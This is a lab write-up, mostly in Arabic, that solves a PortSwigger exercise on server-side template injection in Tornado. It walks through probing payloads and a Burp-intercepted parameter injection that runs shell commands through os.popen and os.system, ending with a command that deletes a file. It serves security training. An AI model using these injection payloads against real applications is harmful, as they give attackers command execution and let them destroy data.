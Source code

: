 ## Welcome, my friend. Today we will start the [2. SSTI lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context) in ```portswigger```
### Let's play this lab:

#### First, we navigate inside the browser
![image](https://github.com/user-attachments/assets/2bbd92b6-33a3-4bed-88db-10df1dc6ddda)

### اول خطوة هي اننا نتصفح الموقع ونرى ما هو مريب علشان نستغلها في اختراق ذلك التحدي. ,ومعانا حساب لنسجل عليه ```wiener:peter```:
![image](https://github.com/user-attachments/assets/8d29ed31-8eaa-47c1-828a-7ea65c4f2abe)

### نلاحظ وجود ```Preferred name``` بالاسفل هو ده لغز التحدي.لما نتصفح اكثر في الموقع هنلاحظ بلوج بيسمحلنا نضيف اي تعليقات سوف نضيف الكود اللي بيظهر رسالة خطأ لو الثغرة موجودة:

```
${{<%[%'"}}%\
```

![image](https://github.com/user-attachments/assets/e416e9f9-570d-4841-8797-b3966de9e216)
### الرسالة بتوضح وجود ثغرة وان المكتبة المستخدمة tornado. 



###  هنجرب الاكواد التالية ونشوف لو في اي تغيير:

```
${4*4}
{{4*4}}
<%= mohamed %>
{{7*'7'}}
```

![image](https://github.com/user-attachments/assets/be474d0c-34ae-44cd-966f-22a90ccd0097)

### لم نحصل على تنفيذ تلك الاكواد وهنا نتاكد ان الثغرة مش داخل الكومنت ولكن تذكر الجزء في اول الشرح قلتلك ده اللغز هنا بالظبط ```Preferred name``` هنبدأ نفتح burp ونعترض الطلب:

![image](https://github.com/user-attachments/assets/c6b6e198-9503-453c-86a9-17497333e69f)


### هنعدل قيمة ```blog-post-author-display``` للكود التالي:

```
blog-post-author-display=user.nickname}}{{4*4}}
```

![image](https://github.com/user-attachments/assets/ac4dd129-f3b5-4f9a-9587-72e34e8a4d3a)



### وبعدها نروح نكتشف الكومنتات :
![image](https://github.com/user-attachments/assets/d046f704-db0f-4354-890b-9209609165ab)




## وهنا اكتشفنا انه تم تنفيذ العملية الحسابية وعرفنا هنحقن الاكواد فين تعالى نحقن الكود التالي:

```
blog-post-author-display=user.nickname}}{% import os %}{{ os.popen("ls").read() }}
```
![image](https://github.com/user-attachments/assets/ec56bcff-ddd7-4068-9d83-97ef8347f8ef)

### بعدها نشيك على الكومنتات:

![image](https://github.com/user-attachments/assets/d2b78c03-cb13-46c9-950c-38ae2c2b7c90)

### جميل ظهر الفايل المراد حذفه هنستخدم الكود التالي:
```
{% import os %}{{os.system('rm /home/carlos/morale.txt')
```

![image](https://github.com/user-attachments/assets/2d4dfa5e-3323-4795-9ca9-755474545fa6)

### بعدها نشيك على الكومنتات:

![image](https://github.com/user-attachments/assets/09e3a3db-93db-43d2-94f7-ce1c0e3212ac)

## وهنا تم حل اللاب يا صديقي ;)





-----------------

Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/853f5e50-d1fd-4465-9c5a-a3f27700e936" >
</p>




